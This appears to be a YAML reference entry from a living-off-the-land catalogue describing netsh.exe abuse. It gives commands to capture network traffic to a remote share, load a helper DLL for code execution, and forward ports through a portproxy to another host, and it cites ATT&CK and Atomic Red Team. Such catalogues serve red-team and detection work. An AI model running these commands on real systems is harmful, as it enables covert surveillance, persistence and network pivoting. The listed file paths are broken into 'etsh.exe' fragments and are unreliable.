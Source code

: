 ```yaml
---
Name: Netsh.exe
Description: Execute, Surveillance
Author: ''
Created: '2018-05-25'
Categories: []
Commands:
  - Command: |
          netsh.exe trace start capture=yes filemode=append persistent=yes tracefile=\\server\share\file.etl IPv4.Address=!(<IPofRemoteFileShare>)
          netsh.exe trace show status
    Description: Capture network traffic on remote file share.
  - Command: netsh.exe add helper C:\Path\file.dll
    Description: Load (execute) NetSh.exe helper DLL file.
  - Command: netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8000 connectaddress=192.168.1.1
    Description: Forward traffic from the listening address and proxy to a remote system.
Full Path:
  - C:\Windows\System32
etsh.exe
  - C:\Windows\SysWOW64
etsh.exe
Code Sample: []
Detection: []
Resources:
  - https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Persistence/Netsh_Helper_DLL.md
  - https://attack.mitre.org/wiki/Technique/T1128
  - https://twitter.com/teemuluotio/status/990532938952527873
Notes: ''
---
```


